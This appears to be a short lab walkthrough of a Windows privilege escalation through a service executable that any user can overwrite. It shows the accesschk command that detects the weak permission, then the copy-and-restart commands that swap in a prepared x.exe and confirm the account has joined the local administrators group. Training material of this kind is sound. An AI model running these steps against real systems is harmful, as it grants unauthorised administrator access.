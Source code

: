 ## Service Escalation - Executable Files

Detection

Windows VM

1. Open command prompt and type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
2. Notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the filepermservice.exe file.

Exploitation

Windows VM

1. Open command prompt and type: copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
2. In command prompt type: sc start filepermsvc
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators